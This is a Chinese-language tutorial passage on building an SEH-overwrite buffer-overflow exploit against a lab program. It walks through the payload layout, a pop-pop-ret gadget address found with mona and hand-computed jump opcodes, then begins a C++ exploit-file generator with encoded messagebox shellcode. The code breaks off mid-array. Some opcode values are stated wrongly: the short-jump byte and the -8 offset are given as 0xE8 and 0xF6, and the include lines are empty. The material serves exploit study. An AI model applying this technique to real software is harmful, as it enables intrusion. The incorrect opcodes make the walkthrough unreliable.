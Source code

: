 ``` {style="font-size: 12px !important; line-height: 15px !important;"}
  大約 1344-300-8 bytes      大約 300 bytes       大約 8 bytes   4 bytes  4 bytes
|-------- ... ---------||------- ... --------||--------------||-------||-------|
          NOPs                Shellcode         2nd jumpcode     Next   Handler
```

<div>

\

</div>

<div>

那麼我們該如何把EIP跳到Next的記憶體空間（4BYTE）上？可以利用組語的：\

``` {.brush: .cpp;}
pop eax
pop ecx
ret //上面兩個pop 會釋放掉8BYTE，於是[ESP+8]就變成返回位置
```

\
至於想要快速找到記憶體中這樣類型的指令在哪，可以透過指令：!mona
seh（也就是剛剛我們拿來看SEH鏈狀成員的指令），然後觀看Log視窗可以得知\

::: {.separator style="clear: both; text-align: center;"}
[![](http://1.bp.blogspot.com/-ixKJt732vpQ/VV47wpY5TzI/AAAAAAAAGbc/F4oWg1vLr9E/s640/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2015-05-22%2B%25E4%25B8%258A%25E5%258D%25884.10.12.png){width="640"
height="172"}](http://1.bp.blogspot.com/-ixKJt732vpQ/VV47wpY5TzI/AAAAAAAAGbc/F4oWg1vLr9E/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2015-05-22%2B%25E4%25B8%258A%25E5%258D%25884.10.12.png)
:::

mona替我們把這種類型的跳轉都整理出來了，這邊我選用了自己程式上的模組（exe.exe）穩定性比較高不會因為系統API模組變動而影響，我選了0x004019CE這個位置（放置在EIP上）\
\
再來是Next上的4BYTE該怎麼用？我們得用jmp short -8（往前跳）\
轉換為BYTE Code為 0xE8、0xF6（jmp short為0xE8，-8 = 0x00 - 0x08 =
0xF6）\
不過為了補足四個字，後面還得塞兩個BYTE，可以隨便塞不影響結果\
（這邊我塞的是兩個nop，0x90、0x90）\
\
至於8BYTE上的二段跳則是使用jmp long -300，也就是jmp long - 0x012C\
轉換為BYTE Code為 0xE9、0xCF、0xFE、0xFF、0xFF\
（jmp long接DWORD為4BYTE，0x00000000 - 0x012C = 0xFFFFFECF）\
\
最後可以按照原文中安排的Shellcode形式，寫出以下Code：\
\

</div>

``` {.brush: .cpp;}
#include 
#include 
#include 
using namespace std;
#define FILENAME "Vulnerable001_Excp_Exploit.txt"
   
//Reading "e:\asm\messagebox-shikata.bin"
//Size: 288 bytes
//Count per line: 19
char code[] =
"\xba\xb1\xbb\x14\xaf\xd9\xc6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1\x42\x83\xc6\x04"
"\x31\x56\x0f\x03\x56\xbe\x59\xe1\x76\x2b\x06\xd3\xfd\x8f\xcd\xd5\x2f\x7d\x5a"
"\x27\x19\xe5\x2e\x36\xa9\x6e\x46\xb5\x42\x06\xbb\x4e\x12\xee\x48\x2e\xbb\x65"
"\x78\xf7\xf4\x61\xf0\xf4\x52\x90\x2b\x05\x85\xf2\x40\x96\x62\xd6\xdd\x22\x57"
"\x9d\xb6\x84\xdf\xa0\xdc\x5e\x55\xba\xab\x3b\x4a\xbb\x40\x58\xbe\xf2\x1d\xab"
"\x34\x05\xcc\xe5\xb5\x34\xd0\xfa\xe6\xb2\x10\x76\xf0\x7b\x5f\x7a\xff\xbc\x8b"
```